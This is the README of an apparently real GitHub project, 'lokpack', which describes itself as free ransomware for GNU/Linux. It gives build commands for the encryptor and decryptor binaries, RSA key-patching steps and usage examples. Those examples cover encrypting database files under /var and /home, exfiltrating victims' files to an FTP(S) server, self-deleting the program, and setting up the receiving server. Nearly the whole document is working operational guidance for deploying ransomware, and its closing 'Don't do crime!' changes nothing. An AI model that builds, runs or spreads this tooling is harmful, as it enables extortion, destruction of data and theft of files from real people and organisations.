 # lokpack | ransomware tooling for GNU/Linux

![](https://img.shields.io/github/actions/workflow/status/ngn13/lokpack/test.yml?label=tests)
![](https://img.shields.io/github/actions/workflow/status/ngn13/lokpack/release.yml?label=release)

lokpack is a free ransomware for modern GNU/Linux systems, written in C

https://github.com/user-attachments/assets/bc89fac8-8203-4e80-a270-b208ce8773d5

## Features

- Build static encryption and decryption tools
- Steal files using a FTP(S) server
- Specify custom target paths and extensions
- Uncrackable encryption with 8192 bit RSA and AES-256
- Fully multi-threaded

## Tested on...

Latest release is automatically tested weekly on the latest Ubuntu LTS using
github actions. I also manually tested the latest release on the following
systems:

- Arch Linux 2025-06-02, x86-64
- Ubuntu 24.04.2 LTS (Noble Numbat), x86-64
- FreeBSD 14.2-RELEASE, i386

If you experience issues on any GNU/Linux system, feel free to create an issue.
This project does not target BSD systems, however if you experience any issues
on popular BSD systems (FreeBSD, NetBSD, OpenBSD etc.) I can try to fix them as
well.

## Installation

### Binary builds

Binary builds (automatically built with github actions) are published for each
release. These releases contain static, cross-compiled built encryptor and
decryptor binaries with a randomly generated RSA key pair.

Each release also contains a simple python(3) patch script, which you can use to
generate a new RSA key pair and replace the pair contained in the binaries:

```bash
# make sure you have pycryptodome installed
python3 patch.py
```

### From the source

To obtain the source code, download the
[latest](https://github.com/ngn13/lokpack/releases/latest) release archive, or
clone the repository and checkout the latest tag. **Do not use any other commit
or branch** unless you are doing development.

#### Setup

- A GNU/Linux system, you may also be able to build on BSD systems
- GCC, GNU make and other GNU build tools
- curl (and headers)
- OpenSSL (and headers)

**If you want to cross-compile the binaries for a different system**, you'll
will need the cross-compilation tools for the target system. **If your distro
does not package cross-compilation tools**, you can build them yourself. After
building them you should specify their paths with environment variables, for
example:

```bash
export CC=/opt/cross/bin/x86_64-linux-gnu-gcc
export LD=/opt/cross/bin/x86_64-linux-gnu-ld
export AS=/opt/cross/bin/x86_64-linux-gnu-as
```

You should also add path of the cross-compilation headers to the include path:

```bash
export C_INCLUDE_PATH=/opt/cross/include
```

**If you want to static binaries**, you will also need static libraries of curl
and OpenSSL. **If your distro does not package these**, you can build them
yourself or use the automated build scripts:

```bash
./scripts/openssl.sh
./scripts/curl.sh
```

#### Build

For a static build (requires static libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -static
```

For a local build (requires shared libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -local
```

Both of these should create the `encryptor` and the `decryptor` binaries at
`dist/`.

You can also build the binaries with an hardcoded key pair, and later patch them
using the `patch.py` script, which is located under the scripts directory:

```bash
make
cd dist && python3 ../scripts/patch.py
```

This also let's you customize different build options:

```bash
make LP_QUEUE_MAX=400
```

You can get a full list of these build options by running `make help`.

## Usage

After transferring `encryptor` to the target system, you can specify custom
options:

```bash
$ ./encryptor --help
[*] Listing available options:
    --threads   => Thread count for the thread pool
    --paths     => Target paths (directories/files)
    --exts      => Target file extensions
    --ftp-url   => Address for the FTP(S) server
    --ftp-user  => FTP(S) username
    --ftp-pwd   => FTP(S) password
    --no-ftp    => Disable stealing files with FTP(S)
    --no-bar    => Disable simple ASCII progress bar
    --destruct  => Self destruct (delete) the program
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home`
without FTP using 100 threads:

```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

If you want to encrypt all files with all extensions, use the `--exts` options
with an empty value, so just `--exts=`.

Decryptor does not have any options, you only need to specify a target directory
or a file to decrypt. For example to decrypt all the encrypted files in `/var`,
you can run:

```bash
./decryptor /var
```

### Setting up FTP(S)

For an actual FTP(S) setup you should install and configure a FTP daemon such as
`vsftpd`. But for testing you can use `pyftpdlib`:

```bash
# username and password are 'anonymous'
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Development

After making any changes to the source code, make sure the format the code and
check for any linting errors (requires a recent version of `clang-format` and
`clang-tidy`):

```bash
make format # fix formatting
make check # check for formatting and linting errors
```

Make sure the fix any reported issues. Also make sure to test the binaries using
the `scripts/test.sh` script (requires `openssl` and `pyftpdlib`):

```bash
make test
```

If you experience any issues, enable the debug messages, compile the binaries
with debug messages. This might help you to quickly spot the issue:

```bash
make LP_DEBUG=1 # uses hardcoded key pair
# or...
./scripts/build.sh -debug # uses random key pair
```

Also if you want to submit any changes, feel free to create a pull request. Just
make sure to target the `dev` branch instead of `main`.

---

Don't do crime!
